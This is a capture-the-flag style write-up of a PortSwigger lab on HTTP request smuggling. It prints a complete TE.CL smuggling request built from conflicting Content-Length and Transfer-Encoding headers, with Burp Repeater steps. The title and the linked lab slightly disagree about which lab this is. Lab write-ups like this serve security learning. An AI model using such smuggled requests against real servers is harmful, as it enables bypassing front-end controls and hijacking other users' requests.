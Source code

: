 # HTTP request smuggling, basic TE.CL vulnerability

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header) involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method. 

## Reproduction and proof of concept

1. In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

2. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

The second response should say: ``Unrecognized method GPOST``.

## Exploitability

An attacker will need to smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST. 

